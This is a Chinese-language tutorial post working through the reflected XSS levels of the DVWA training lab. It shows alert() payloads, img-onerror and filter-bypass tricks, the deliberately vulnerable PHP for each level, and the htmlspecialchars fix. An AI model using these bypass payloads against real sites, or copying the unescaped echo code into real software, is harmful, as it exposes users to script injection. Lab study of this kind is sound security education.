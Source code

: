 ```yaml
---
layout: post
title: "DVWA XSS (Reflected) (教學用)"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_XSS
author: ""
tags: ['DVWA', 'XSS']
---
```




# DVWA XSS (Reflected) (教學用)

###### tags: `DVWA`

## low


網址:
```
http://localhost/vulnerabilities/xss_r/
```

輸入111111111111
```htmlembedded
<form name="XSS" action="#" method="GET">
    <p>
        What's your name?
        <input type="text" name="name" />
        <input type="submit" value="Submit" />
    </p>
</form>

```

表單 get 送到原本網址

頁面出現了
```htmlembedded=
<pre>Hello 111111111111</pre>
```

後端大概猜測

```php=
echo "<pre>{$_GET['name']}</pre>";
```

輸入以下 成功
```
<script>alert('123')</script>
```

看一下後端:
```php=
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

猜得差不多。




## medium


### 輸入以下 失敗
```
<script>alert('123')</script>


//顯示
<pre>Hello alert('123')</pre>
```

* script tag 被過濾了

### img payload 成功
```
<img src=x onerror=alert(1)>
```


大概猜測只過濾 script 而已


### 看一下源碼:
```php=

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>

```

這種只過濾一次的，或是字串過慮的很容易繞過。


大寫
```
<Script>alert('1')</script>
```

雙寫
```
<<script>script>alert('1')</script>
```



## high

script tag  被過濾

```
<script>alert('1')</script>

<<script>script>alert('1')</script>

只剩下 >
```

代表
```
<script 過慮了好幾次 script 應該涼了
```


### img payload 成功
```
<img src=x onerror=alert(1)>
```


說明只過濾 script 但 script 確實無法用了。

不過屬於黑名單，所以防不勝防。


看代碼:
```php=
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>

```
preg_replace  正規表達式
```
(.*) 貪婪匹配

/i 不區分大小寫
```













## impossible
```php=

<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>

```

加上 session token 防止csrf


PHP htmlspecialchars() 函数 特殊符號轉實體.

```
& （和号）成为 &amp;
" （双引号）成为 &quot;
' （单引号）成为 '
< （小于）成为 &lt;
> （大于）成为 &gt;
```


測試網站:
https://emn178.github.io/online-tools/html_encode.html
```
<script>

=>

&lt;script&gt;
```



這題的 impossible  主要使用 htmlspecialchars防禦，但在某些情況下，會失效。可以打pickachu 靶場練一下。